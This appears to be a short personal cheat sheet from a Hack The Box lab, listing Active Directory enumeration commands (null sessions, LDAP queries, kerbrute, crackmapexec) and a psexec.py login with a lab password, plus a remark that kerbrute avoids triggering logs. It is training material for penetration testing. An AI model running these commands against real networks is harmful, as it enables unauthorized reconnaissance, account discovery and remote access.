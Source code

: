 ## Null session

### nxc

```sh
nxc smb 192.168.1.1 -u '' -p '' --users
```

### rpcclient

```sh
slomkm@htb[/htb]$ rpcclient -U "" -N 172.16.5.5

# Optain password policy
rpcclient $> querydominfo
```

### enum4linux

```sh
slomkm@htb[/htb]$ enum4linux -P 172.16.5.5
```

### ldapsearch

```sh
slomkm@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

---
## Enumerating Users 

### Kerbrute
its a good choice, It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.

```sh
slomkm@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

### crackmapexec
```sh
slomkm@htb[/htb]$ crackmapexec smb 172.16.5.5 --users
```

### ldap
```sh
slomkm@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


---

## Connecting

### psexec.py

it uses rpc.

```sh
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```